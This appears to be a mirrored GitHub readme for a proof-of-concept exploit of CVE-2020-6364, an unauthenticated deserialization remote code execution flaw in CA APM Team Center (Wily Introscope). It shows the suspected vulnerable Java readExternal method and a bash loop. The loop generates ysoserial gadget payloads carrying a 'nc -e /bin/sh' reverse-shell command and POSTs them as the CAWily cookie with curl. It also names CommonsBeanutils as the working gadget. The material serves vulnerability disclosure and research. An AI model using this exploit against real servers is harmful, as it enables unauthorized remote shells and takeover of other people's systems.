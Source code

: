 # CVE-2020-6364

Remote code execution in CA APM Team Center (Wily Introscope)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gquere](https://github.com/gquere) |
| Url      | [https://github.com/gquere/CVE-2020-6364](https://github.com/gquere/CVE-2020-6364)                                               |
| Stars    | 3                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* deserialization* introscope* rce

</details>

## Readme

# CVE-2020-6364
Remote code execution in CA APM Team Center (Wily Introscope).

[Original advisory](https://github.com/Onapsis/vulnerability_advisories/blob/main/2021/CVE-2020-6364/ONAPSIS-2021-0008-OS_Command_Injection_in_CA_Introscope_Enterprise_Manager.md)

A deserialization vulnerability in CA APM Team Center leads to unauthenticated remote code execution on the server.

When authenticating to the server a cookie is returned that starts with the infamous ```rO0``` string indicating a base64-encoded serialized object:
![](./cookie.png)

Although I haven't fully traced the problem statically, this probably is the vulnerable code:
```java
public class HttpRequestHeaderInfo implements Externalizable {
  public void readExternal(ObjectInput in) throws IOException, ClassNotFoundException {

    in.readInt();
    int numMapEntries = in.readInt();
    this.fRequestParameterMap = (numMapEntries == 0) ? Collections.EMPTY_MAP : new HashMap(numMapEntries);

    for (int i = 0; i < numMapEntries; i++) {
      this.fRequestParameterMap.put(in.readUTF(), in.readObject());
    }

    int numCookies = in.readInt();
    this.fCookies = (numCookies == 0) ? kNoCookies : new Cookie[numCookies];

    for (int j = 0; j < this.fCookies.length; j++) {
      this.fCookies[j] = new Cookie((String)in.readObject(), (String)in.readObject());
    }
  }
}
```

Notice that the parameter map and the cookie are deserialized using ```readObject()``` from the user input.

This is trivially exploited by identifying a suitable gadget in a for loop:
```bash
for gadget in AspectJWeaver BeanShell1 C3P0 Click1 Clojure CommonsBeanutils1 CommonsCollections1 CommonsCollections2 CommonsCollections3 CommonsCollections4 CommonsCollections5 CommonsCollections6 CommonsCollections7 FileUpload1 Groovy1 Hibernate1 Hibernate2 JBossInterceptors1 JRMPClient JRMPListener JSON1 JavassistWeld1 Jdk7u21 Jython1 MozillaRhino1 MozillaRhino2 Myfaces1 Myfaces2 ROME Spring1 Spring2 URLDNS Vaadin1 Wicket1
do
    java -jar ./ysoserial-0.0.6-SNAPSHOT-all.jar $gadget "nc -e /bin/sh ..." | base64 -w0 > cookie
    payload=$(cat cookie)
    curl -s -k 'https://remoteserver/' -X POST -H "Cookie: CAWily=$payload"
done
```

The only payload that produced remote code execution for me was CommonsBeanutils. The embedded JAR is ```org.apache.commons_beanutils_1.9.2.1.jar``` and does indeed include a vulnerable gadget according to the [maven repository](https://mvnrepository.com/artifact/commons-beanutils/commons-beanutils/1.9.2).

Thanks
======
Obligatory thanks to a special someone who had me double check the header.



## Get the content

```
git clone https://github.com/gquere/CVE-2020-6364
cd CVE-2020-6364
```

{% embed url="https://github.com/gquere/CVE-2020-6364" %}

<figure><img src="https://avatars.githubusercontent.com/u/1585000?v=4" alt=""><figcaption><p>gquere</p></figcaption></figure>
